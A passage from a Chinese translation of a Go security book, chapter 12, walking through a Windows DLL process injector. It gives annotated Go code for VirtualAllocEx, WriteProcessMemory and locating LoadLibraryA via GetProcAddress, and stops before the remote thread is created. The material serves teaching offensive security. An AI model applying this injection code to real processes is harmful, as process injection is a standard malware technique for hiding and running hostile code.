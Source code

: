 *Listing 12-8: 通过* VirtualAllocEx ([/ch-12/procInjector /winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)) *分配远程进程中的内存区域*

与之前的`OpenProcess()`系统调用不同，我们通过`nullRef`变量引入了一个新的细节❶。`nil`关键字被 Go 语言保留用于所有`null`的用途。然而，它是一个类型化的值，这意味着如果直接通过`syscall`传递它而不指定类型，将导致运行时错误或类型转换错误——无论哪种情况，都是不好的。此问题的解决方法很简单：我们声明一个解析为`0`值的变量，例如整数。现在，`0`值可以被可靠地传递并被接收的 Windows 函数解释为`null`值。

#### 使用 WriteProcessMemory Windows API 写入内存

接下来，我们将使用 `WriteProcessMemory()` 函数将数据写入先前通过 `VirtualAllocEx()` 函数初始化的远程进程内存区域。在 示例 12-9 中，我们将通过文件路径调用 DLL，而不是将整个 DLL 代码写入内存，从而简化处理。

```
func WriteProcessMemory(i *Inject) error {
    var nBytesWritten *byte
    dllPathBytes, err := syscall.BytePtrFromString(i.DllPath) ❶
    if err != nil {
        return err
    }
    writeMem, _, lastErr := ProcWriteProcessMemory.Call(
        i.RemoteProcHandle, // HANDLE  hProcess
        i.Lpaddr, // LPVOID  lpBaseAddress
        uintptr(unsafe.Pointer(dllPathBytes)), // LPCVOID lpBuffer ❷
        uintptr(i.DLLSize), // SIZE_T  nSize
        uintptr(unsafe.Pointer(nBytesWritten))) // SIZE_T  *lpNumberOfBytesWritten
    if writeMem == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Can't write to process memory.")
    }
    return nil
}
```

*示例 12-9：将 DLL 文件路径写入远程进程内存*（*[/ch-12/procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*）

第一个显著的 `syscall` 函数是 `BytePtrFromString()` ❶，它是一个便捷函数，接受一个 `string` 并返回一个 `byte` 切片的基地址指针位置，我们将其赋值给 `dllPathBytes`。

最后，我们将看到 `unsafe.Pointer` 的实际应用。`ProcWriteProcessMemory.Call` 的第三个参数在 Windows API 规范中定义为 “`lpBuffer`——指向包含要写入指定进程地址空间数据的缓冲区的指针。” 为了将 `dllPathBytes` 中定义的 Go 指针值传递给接收的 Windows 函数，我们使用 `unsafe.Pointer` 来绕过类型转换。这里需要最后提到的一点是，`uintptr` 和 `unsafe.Pointer` ❷ 是可以安全使用的，因为它们都在内联中使用，并且没有将返回值分配给变量以便后续重用的意图。

#### 使用 GetProcessAddress Windows API 查找 LoadLibraryA

*Kernel32.dll* 导出了一个名为 `LoadLibraryA()` 的函数，它在所有 Windows 版本中都可用。微软文档中指出，`LoadLibraryA()` “将指定模块加载到调用进程的地址空间中。指定的模块可能会导致其他模块被加载。” 在创建必要的远程线程以执行我们的实际进程注入之前，我们需要获取 `LoadLibraryA()` 的内存位置。我们可以通过 `GetLoadLibAddress()` 函数来实现这一点——这是前面提到的支持函数之一（示例 12-10）。

```
func GetLoadLibAddress(i *Inject) error {
    var llibBytePtr *byte
    llibBytePtr, err := syscall.BytePtrFromString("LoadLibraryA") ❶
    if err != nil {
        return err
    }
    lladdr, _, lastErr := ProcGetProcAddress.Call❷(
        ModKernel32.Handle(), // HMODULE hModule ❸
        uintptr(unsafe.Pointer(llibBytePtr))) // LPCSTR lpProcName ❹
    if &lladdr == nil {
        return errors.Wrap(lastErr, "[!] ERROR : Can't get process address.")
    }
    i.LoadLibAddr = lladdr
    fmt.Printf("[+] Kernel32.Dll memory address: %v\n", unsafe.Pointer(ModKernel32.Handle()))
    fmt.Printf("[+] Loader memory address: %v\n", unsafe.Pointer(i.LoadLibAddr))
    return nil
}
```
